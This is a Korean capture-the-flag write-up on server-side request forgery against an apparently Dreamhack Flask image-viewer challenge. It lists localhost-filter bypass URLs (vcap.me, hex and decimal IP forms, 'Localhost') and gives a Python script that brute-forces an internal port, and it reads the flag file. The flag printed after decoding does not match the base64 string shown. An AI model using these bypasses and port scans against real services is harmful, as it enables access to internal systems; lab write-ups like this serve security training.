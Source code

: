 # ServerSide : SSRF
웹 개발 언어는 HTTP 요청을 전송하는 라이브러리를 제공한다. 예로들어 PHP는 php-curl, NodeJS는 http, 파이썬은 urllib,requests를 예로 들 수 있다.
이러한 라이브러리는 HTTP 요청을 보낼 클라이언트 뿐만아니라 서버와 서버간 통신을 위해 사용되기도 한다. 
일반적으로 다른 웹 애플리케이션이 존재하는 리소스를 사용하기 위한 목적으로 통신한다. 예로 들어, 마이크로서비스 간 통신, 외부 API 호출, 외부 웹 리소스 다운 등이 있다.
기존의 웹 서비스는 단일 서비스로 구성이 가능했지만, 최근 웹 서비스는 지원하는 기능이 증가함에 따라서 구성요소가 증가했다. 이에 따라서 관리 및 코드의 복잡도를 낮추기 위해서 마이크로서비스들로 웹 서비스를 구현하는 추세히다. 이떄 마이크로서비스는 주로 HTTP, GRPC 등을 사용하여 API 통신을 한다
서비스 간 HTTP 통신이 이뤄질 때 요청 내에 이용자의 입력값이 포함될 수 있는데, 이용자의 입력값이 포함되면 개발자가 의도하지 않은 요청이 전송될 수 있다. 
Server-side Request Forgery(SSRF)는 웹 서비스의 요청을 변조하는 취약점으로, 브라우저가 변조된 요청을 보내는 CSRF와는 다르게 웹 서비스의 권한으로 변조된 요청을 보낼 숭 ㅣㅆ다.


# web-ssrf
flask로 만들어진 image viewer 서비스이다, SSRF 취약점을 이용해 플래그를 획득해야한다. 플래그는 `/app/flag.txt`에 있다

아래의 코드는 `/img-viewer`의 엔드포인트에 대한 코드이다.

```python
@app.route("/img_viewer", methods=["GET", "POST"])
def img_viewer():
    if request.method == "GET":
        return render_template("img_viewer.html")
    elif request.method == "POST":
        url = request.form.get("url", "")
        urlp = urlparse(url)
        if url[0] == "/":
            url = "http://localhost:8000" + url
        elif ("localhost" in urlp.netloc) or ("127.0.0.1" in urlp.netloc):
            data = open("error.png", "rb").read()
            img = base64.b64encode(data).decode("utf8")
            return render_template("img_viewer.html", img=img)
        try:
            data = requests.get(url, timeout=3).content
            img = base64.b64encode(data).decode("utf8")
        except:
            data = open("error.png", "rb").read()
            img = base64.b64encode(data).decode("utf8")
        return render_template("img_viewer.html", img=img)
```

GET 메소드는 img_viewer를 렌더링한다. POST 메소드는 이용자가 입력한 url에 HTTP 요청을 보내고, 응답을 img_viewer.html를 인자로 하여 렌더링한다.
URL 필터링 또한 elif 구문에 적혀있는데 코드를 보니 localhost, 127.0.0.1이 포함된 URL로의 접근을 막고 error.png를 보여주는 모습이다. 이를 우회한다면 SSRF를 통해 내부 HTTP서버에 접근 할 수 있을 것이다.


아래의 서버는 run_local_server 함수에 대한 코드인데, 로컬 호스트가 127.0.0.1로 되어있는것을 보아 외부에서 이 서버에 접근하는 것은 불가능한것 같다

```python
local_host = "127.0.0.1"
local_port = random.randint(1500, 1800)
local_server = http.server.HTTPServer(
    (local_host, local_port), http.server.SimpleHTTPRequestHandler
)
print(local_port)


def run_local_server():
    local_server.serve_forever()


threading._start_new_thread(run_local_server, ())

app.run(host="0.0.0.0", port=8000, threaded=True)
```

## URL 필터링 우회

1. 127.0.0.1과 매핑된 도메인 이름 사용
임의의 도메인 이름을 구매하여 127.0.0.1과 연결하고, 그 이름을 url로 사용하여 필터링 우회가 가능하다. 이미 127.0.0.1에 매핑된 `*.vcap.me`를 이용하는 방법도 있다.

2. 127.0.0.1의 alias 이용
하나의 IP는 여러 방식으로 표기될 수 있다. 예로 들어 127.0.0.1을 
- 16진수로 변환 -> 0x7f.0x00.0x00.0x01 -> . 제거 -> 0x7f000001
- 0x7f000001를 10진수로 풀어 쓴 -> 2130706433 -> 각 자리에서 0을 생략한 127.1, 127.0.1 과 같은 호스트를 가리킨다
특시 127.0.0.1 ~ 127.0.0.255 까지는 IP loop-back 주소라고하여 모두 로컬 호스트를 가리킨다

3. localhost의 alias 이용
URL에서 호스트와 스키마는 대소문자를 구분하지 않음

```
http://vcap.me:8000/
http://0x7f.0x00.0x00.0x01:8000/
http://0x7f000001:8000/
http://2130706433:8000/
http://Localhost:8000/
http://127.0.0.255:8000/
```

## 포트 찾기
랜덤한 포트를 찾아야하는데 아까 코드에서 봤듯이 1500 ~ 1800이하인 랜덤한 포트에서 실행되고 있다. 아까 URL을 활용하여 아래의 파이썬 스크립트를 사용한다면, 무차별 대입 공격으로 포트를 찾을 수 있다. 

```python
#!/usr/bin/python3
import requests
import sys
from tqdm import tqdm

# `src` value of "NOT FOUND X"
NOTFOUND_IMG = "iVBORw0KG"

def send_img(img_url):
    global chall_url
    data = {
        "url": img_url,
    }
    response = requests.post(chall_url, data=data)
    return response.text
    
    
def find_port():
    for port in tqdm(range(1500, 1801)):
        img_url = f"http://Localhost:{port}"
        if NOTFOUND_IMG not in send_img(img_url):
            print(f"Internal port number is: {port}")
            break
    return port
    
    
if __name__ == "__main__":
    chall_port = int(sys.argv[1])
    chall_url = f"http://host3.dreamhack.games:{chall_port}/img_viewer"
    internal_port = find_port()
```

위의 익스플로잇 스크립트를 작성한 후 `pyhton3 ssrf.py 20304`로 실행 

```bash
┌──(kali㉿kali)-[~]
└─$ python3 ssrf.py 20304
  9%|██████████▎                                                                                                            | 26/301 [00:05<01:01,  4.44it/s]
Internal port number is: 1526
```

스크립트 결과 내부적인 포트 번호는 1526인 것을 확인했다.
이후 /image_viewer 에서 `http://Localhost:1526/flag.txt` 를 친 후에 페이지 소스에서 base64 방식으로 인코딩 되어있는 값을 디코딩 시켜 flag 값을 확인한다

```
└─$ echo "REh7NDNkZDIxODkwNTY0NzVhN2YzYmQxMTQ1NmExN2FkNzF9" | base64 --decode
DH{ffffflllllaaagggg}
```
